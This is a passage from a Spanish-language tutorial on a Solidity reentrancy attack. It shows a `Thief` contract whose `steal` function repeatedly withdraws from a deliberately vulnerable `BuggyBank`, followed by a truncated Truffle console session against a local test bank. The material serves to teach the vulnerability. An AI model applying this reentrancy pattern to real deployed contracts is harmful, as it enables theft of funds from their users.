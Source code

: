 Si `retry` es mayor que cero, el contrato `Thief` intentará retirar más dinero de la cuenta bancaria. Si `retry` es cero, el contrato `Thief` no hará nada.

El contrato `Thief` tiene un método `steal` que permite configurar el valor de `retry`:

```solidity
function steal(address addr, uint amount, uint times) public onlyThief {
    retry = times;
    BuggyBank(addr).withdraw(amount);
    emit ThiefSteal(addr,amount,times);
}
```

Veamos la interacción entre el contrato `Thief` y el contrato `VeryBuggyBank`:

```javascript
truffle(develop)> var bank = await VeryBuggyBank.new()
undefined
truffle(develop)> var thief = await Thief.new()
undefined
truffle(develop)> bank.deposit({value: 100000})
{
  tx: '0x2355dcd7f69b827ded6dbfa47a0c6faec398451dc54c4185e7e91d9816243107',
  receipt: {
    transactionHash: '0x2355dcd7f69b827ded6dbfa47a0c6faec398451dc54c4185e7e91d9816243107',
    transactionIndex: 0,
    blockNumber: 4,
    blockHash: '0x2b6956aa53b51b343b7f9da423d673217eabf90f0f8db0b4069f1ad9a4324863',
    from: '0x709642f3ecbca11258abde0de9b0d7a716c56ca5',
    to: '0x4e34686ea61c3463215030e91bb7b27cf5d8b7f4',
    cumulativeGasUsed: 66997,
    gasUsed: 66997,
    contractAddress: null,
    logs: [ [Object] ],
    logsBloom: '0x0000000000000000000000000080000000000000000000000000000000000000000000000000000000000004000000000000000
    000000000000000000000000001000000000000000000000000000000000000000000000000000000800000000000000000000000000000000000
    000000000000000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000
    000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
    0000000000000000000000000000000000000000400000000000000000',
    status: true,
    effectiveGasPrice: 3137352860,
    type: '0x2',
    rawLogs: [ [Object] ]
  },
  logs: [
    {
      address: '0x4E34686Ea61C3463215030E91Bb7B27cF5D8b7f4',
      blockHash: '0x2b6956aa53b51b343b7f9da423d673217eabf90f0f8db0b4069f1ad9a4324863',
      blockNumber: 4,
      logIndex: 0,
      removed: false,
      transactionHash: '0x2355dcd7f69b827ded6dbfa47a0c6faec398451dc54c4185e7e91d9816243107',
      transactionIndex: 0,
      id: 'log_a70a62dc',
      event: 'Deposit',
      args: [Result]
    }
  ]
}
truffle(develop)> bank.balance(accounts[0])
BN {
  negative: 0,
```